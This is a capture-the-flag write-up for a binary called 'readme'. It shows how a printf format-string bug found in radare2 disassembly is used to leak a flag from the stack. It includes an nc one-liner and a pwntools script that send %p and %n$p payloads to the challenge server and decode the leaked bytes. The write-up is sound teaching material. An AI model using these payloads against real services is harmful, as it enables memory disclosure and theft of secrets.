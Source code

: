 # Readme

In this challenge you are provided a binary `readme` and a link to a remote server running it, and your task is to pwn the remote binary.

First, I tried running the program but it immediately resulted in a segmentation fault.
So, I opened it up in Radare2 and seek to `main`'s disassembly, finding that it calls the `vuln` function.
In `vuln`, it tries to open up a file `flag.txt` with no error checking.
So, I created a file `flag.txt` with a fake flag in it `dctf{demoflaghere}` and ran the program to get the following results, where my input was `a`:
```
$ ./readme
hello, what's your name?
a
hello a
```

Going back into r2, I found that in `0x00008ea` a call to `printf()` is made with a directly user-supplied string of size `0x1e`:
```
│           0x000008bc      488d45d0       lea rax, [format]
│           0x000008c0      be1e000000     mov esi, 0x1e
│           0x000008c5      4889c7         mov rdi, rax
│           0x000008c8      e853feffff     call sym.imp.fgets          ;[2] ; char *fgets(char *s, int size, FILE *stream)
│           0x000008cd      488d3d040100.  lea rdi, str.hello_         ; 0x9d8 ; "hello " ; const char *format
│           0x000008d4      b800000000     mov eax, 0
│           0x000008d9      e822feffff     call sym.imp.printf         ;[5] ; int printf(const char *format)
│           0x000008de      488d45d0       lea rax, [format]
│           0x000008e2      4889c7         mov rdi, rax                ; const char *format
│           0x000008e5      b800000000     mov eax, 0
│           0x000008ea      e811feffff     call sym.imp.printf         ;[5] ; int printf(const char *format)
```


So, I started enumerating the stack after the buffer using `echo '%p%p%p%p.%p%p%p%p.%p%p%p%p' | nc dctf-chall-readme.westeurope.azurecontainer.io 7481`, where `%p` is the printf format specifier for viewing memory addresses.
The results:
```
hello, what's your name?
hello 0x7ffc182d77d0(nil)(nil)0x6.0x6(nil)0x564e228c52a00x77306e7b66746364.0x646133725f30675f0x30625f656d30735f0x7f6300356b300x7025702570257025
```
The stack on my computer stays around `0x7f...` and the base for PIE binaries stays around `0x55...`, so, ruling those out, we have some interesting bytes in the 8th parameter `0x77306e7b66746364`.
Decoding this in Python (`bytes.fromhex('77306e7b66746364')`) we are left with `b'w0n{ftcd'`, which is the first part of our flag, but backwards due to the racketeers over at the little-endian lobby.

While we can use '%p%p%p...' to access our 8th parameter, it is a lot cleaner to use `%n$p`, where `n` is the number of the argument to access.
Also keep in mind that we can't use the '%s' specifier, as these are ASCII bytes, not pointers to ASCII.

So, putting this all together in a Python script:
```python
from pwn import *
r = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)

payload = '%8$p.%9$p.%10$p.%11$p.END'

r.sendline(payload)
r.recvuntil('hello ')

res = r.recvuntil('.END')
res = res.split(b'.')[:-1]

out = b''
for i in res:
    out += bytes.fromhex(i[2:].decode())[::-1]
print(out.decode(errors='ignore'))
```

This returns our flag, but in a slightly mangled format because it seems the program just doesn't store the ending brace.
